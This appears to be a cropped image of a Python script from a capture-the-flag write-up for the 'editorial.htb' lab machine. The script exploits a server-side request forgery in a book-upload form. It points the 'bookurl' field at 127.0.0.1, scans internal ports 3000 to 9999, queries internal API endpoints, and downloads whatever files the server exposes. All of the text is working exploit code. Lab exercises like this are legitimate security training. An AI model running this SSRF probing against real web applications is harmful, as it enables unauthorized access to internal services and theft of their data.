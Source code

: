 ```python
        'bookfile': ('', b'', 'application/octet-stream')
    }

    # Form data
    data = {
        'bookurl': 'http://127.0.0.1:5000' + endpoint
    }

    # Headers for the request
    headers = {
        'Host': 'editorial.htb',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Origin': 'http://editorial.htb',
        'Connection': 'close',
        'Referer': 'http://editorial.htb/upload',
        'DNT': '1',
        'Sec-GPC': '1'
    }

    # Send the POST request with the files, form data, and headers
    response = requests.post(url, files=files, data=data, headers=headers)

    # Print the response from the server
    if response.text != '/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg':
        print("Found Something Interesting on endpoint: " + endpoint)
        print(response.text)
        if response.text.startswith("static/uploads/"):
            print("Getting the Interesting File")
            url = 'http://editorial.htb/' + response.text
            print(url)
            res_secret = requests.get(url)
            if res_secret.status_code == 200:
                filename = endpoint.split('/')
                filename = filename[len(filename)-1]
                with open(filename,'wb') as file:
                    file.write(res_secret.text.encode())
                return 1
    print("Nothing found on URL: " + url)
    return 0

if __name__ == '__main__':
    for i in range(3000, 10000):
        stop_flag = discoverPorts(str(i))
        if stop_flag:
            break
    endpoints = ["/api/latest/metadata/messages/promos",
                 "/api/latest/metadata/messages/coupons",
                 "/api/latest/metadata/messages/authors",
                 "/api/latest/metadata/messages/how_to_use_platform",
                 "/api/latest/metadata/changelog",
                 "/api/latest/metadata"]
    
    for endpoint in endpoints:
        getEndpointData(endpoint)
    
```
